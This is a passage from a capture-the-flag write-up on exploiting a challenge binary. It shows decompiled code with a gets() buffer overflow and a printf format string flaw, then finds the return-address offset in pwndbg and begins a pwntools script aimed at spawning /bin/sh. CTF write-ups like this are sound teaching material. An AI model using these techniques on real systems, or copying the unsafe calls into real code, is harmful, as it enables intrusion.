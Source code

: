 ```c
   printf("Saved score of %d for %s. Date and Time: ",(ulong)param_1,local_10);
   fflush(stdout);
   system("date");
   printf("Now please add a message: ");
   fflush(stdout);
   gets(local_118);        # vulnerable to buffer overflow
   puts("Your message:");
   printf(local_118);      # format string vulnerability
   puts("");
   fflush(stdout);
   return;
}
```
When we run the program and enter `x`, we get into the `save_msg` function that contains both a buffer overflow and format string vulnerability that we can exploit to execute `system("/bin/sh")` and read the flag on the file system.

## Finding the Offset
We can create a cyclic pattern and calculate the offset to our return address. Lets open GDB and enter our payload after it asks us to input our message.
Because the binary does a call to `system(date)`, we can't debug after this call and have to jump past it. First we disassemble the `save_msg` function to find where we can set a breakpoint.
```console
pwndbg> disass save_msg
...
0x000000000000128f <+134>:	call   0x1110 <fflush@plt>
0x0000000000001294 <+139>:	lea    rax,[rip+0xdef]        # 0x208a
0x000000000000129b <+146>:	mov    rdi,rax
0x000000000000129e <+149>:	call   0x10c0 <system@plt>
0x00000000000012a3 <+154>:	lea    rax,[rip+0xde5]        # 0x208f
0x00000000000012aa <+161>:	mov    rdi,rax
0x00000000000012ad <+164>:	mov    eax,0x0
0x00000000000012b2 <+169>:	call   0x10d0 <printf@plt>
...
```
We will set a breakpoint right before the system call and then jump to `save_msg+154`:
```console
pwndbg> b *save_msg+146
pwndbg> b *save_msg+219
pwndbg> r
pwndbg> jump *save_msg+154

Continuing at 0x5555555552a3.
Saved score of 0 for x. Date and Time: Now please add a message: 
```
Now we can enter our cyclic pattern in the prompt and inpect the `RSP` to calculate our offset:
```console
*RBP  0x6361617463616173 ('saactaac')
*RSP  0x7fffffffdf08 ◂— 'uaacvaacwaacxaacyaac'
*RIP  0x55555555531d (save_msg+276) ◂— ret 

$ python3 -c 'from pwn import *;print(cyclic_find("uaac"))'
280
```
### Testing our offset
Next we can confirm that this is the right offset by creating a small python script that puts `0xdeadbeef` at our found offset.
```python
from pwn import *

exe = './abyss_scream'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
```